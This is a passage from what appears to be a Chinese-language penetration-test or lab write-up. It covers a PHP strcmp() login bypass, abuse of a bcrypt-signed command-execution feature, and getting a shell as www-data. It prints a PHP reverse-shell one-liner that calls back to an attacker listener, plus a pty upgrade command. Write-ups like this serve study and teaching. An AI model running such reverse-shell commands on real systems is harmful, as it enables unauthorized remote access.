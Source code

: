 那么能想到的测试点无非就是：登录绕过（逻辑问题，语言特性），sql注入（万能密码），弱口令（爆破），二次注入，注册覆盖，未授权访问（目录扫描）。



尝试注册、进去一番摸索，并没有发现什么有什么可以值得利用的地方，点击页面发现功能点需要admin用户才能操作，那先在的目标就是获取admin权限

![image-20200904221321962](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200904221321962.png)

经过一番搜索，发现登录时使用php的一个特性去绕过了登录判断，就是**PHP strcmp()**

![image-20200904221754288](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200904221754288.png)

然后就可以成功的登录进去了

![image-20200904233850552](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200904233850552.png)

## 0x05 服务器权限获取 

### 5.1 加密与执行

在页面上有一个命令执行的窗口，在尝试了几个命令后，发现只有whoami命令可以执行，其次因为有csrftoken这个参数的原因，他会频繁刷新，如果没有及时执行命令时就会一直timeout。执行后可以看到是一个www-data的权限。现在需要搞清楚签名的含义。

![image-20200904233633140](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200904233633140.png)

kali自带两个hash算法识别工具hashid和hash-identifier。然而两个都没有识别出来。

![image-20200905002130767](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200905002130767.png)

不过好在我们已经获取了密文内容，那么使用john跑一下就能识别了。识别出来这个签名的加密方式bcrypt。然后就可以利用这个进行命令执行了。

![image-20200905165145526](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200905165145526.png)

找到一个在线加密[网站](https://passwordhashing.com/)，在尝试几个命令后准备反弹shell，一般linux下反弹shell操作无非也就那几种。这里推荐一个[shell生成网站](https://krober.biz/misc/reverse_shell.php)。

![image-20200905172124014](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200905172124014.png)

### 5.2 权限获取

先用nc起一个监听，然后抓包改执行的命令，发现执行命令时老报错误，最终使用遍历的方法获取到了一个shell

```
php -r '$s=fsockopen("1921.68.1.2",4444);$proc=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s),$pipes);'
```

![image-20200906153747736](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200906153747736.png)

转换成标准的输入输出：python -c 'import pty; pty.spawn("/bin/bash")'

## 0x06 权限提升 - yourname

### 6.1 www-data到delx
